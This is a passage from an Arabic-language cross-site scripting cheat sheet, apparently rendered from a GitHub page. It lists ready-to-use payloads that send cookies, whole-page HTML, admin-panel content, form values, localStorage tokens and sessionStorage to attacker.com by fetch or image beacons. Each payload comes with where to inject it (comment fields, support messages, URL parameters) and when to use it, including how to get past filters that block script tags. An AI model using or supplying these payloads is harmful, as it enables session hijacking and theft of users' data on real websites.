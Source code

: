   - **متى يُستخدم؟**: لتجاوز قيود HTTP أو CSP.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.cookie})</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.cookie})</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عبر طلب POST.
  - **متى يُستخدم؟**: لإرسال بيانات أكبر.
- **الحقن**: `<img src=x onerror=fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))>`
  - **الإدخال**: أدخل في رسالة دعم: `<img src=x onerror=fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند فشل تحميل الصورة.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `<script>`.

#### ج. استخراج محتوى DOM
{ #XSS_exploit  / #XSS_DOM }
جمع محتوى الصفحة أو عناصر محددة.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
  - **الإدخال**: `https://example.com/?comment=<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
  - **كيف يعمل**: يرسل محتوى الصفحة بالكامل إلى الخادم.
  - **متى يُستخدم؟**: لاستخراج محتوى لوحة الإدارة.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.getElementById('admin-panel').innerHTML)</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.getElementById('admin-panel').innerHTML)</script>`
  - **كيف يعمل**: يرسل محتوى عنصر معين (مثل لوحة الإدارة).
  - **متى يُستخدم؟**: لاستهداف عناصر حساسة.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(Array.from(document.getElementsByTagName('input')).map(i => i.value))})</script>`
  - **الإدخال**: أدخل في نموذج: `<script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(Array.from(document.getElementsByTagName('input')).map(i => i.value))})</script>`
  - **كيف يعمل**: يرسل قيم حقول الإدخال.
  - **متى يُستخدم؟**: لجمع بيانات النماذج.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.title)</script>`
  - **الإدخال**: أدخل في رسالة دعم: `<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.title)</script>`
  - **كيف يعمل**: يرسل عنوان الصفحة.
  - **متى يُستخدم؟**: لتحديد نوع الصفحة.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.querySelector('.admin-data').innerText})</script>`
  - **الإدخال**: `https://example.com/?comment=<script>fetch('http://attacker.com/log', {method: 'POST', body: document.querySelector('.admin-data').innerText})</script>`
  - **كيف يعمل**: يرسل نص عنصر محدد بـ CSS selector.
  - **متى يُستخدم؟**: لاستخراج بيانات حساسة.

#### د. استخراج بيانات التخزين
{   #XSS_exploit}
استخدام `localStorage` و`sessionStorage` لسرقة بيانات الجلسة.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **كيف يعمل**: يرسل رمز الجلسة من `localStorage`.
  - **متى يُستخدم؟**: لسرقة رموز المصادقة.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(sessionStorage)})</script>`
  - **الإدخال**: `https://example.com/?comment=<script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(sessionStorage)})</script>`
  - **كيف يعمل**: يرسل جميع بيانات `sessionStorage`.
  - **متى يُستخدم؟**: لجمع بيانات الجلسة المؤقتة.
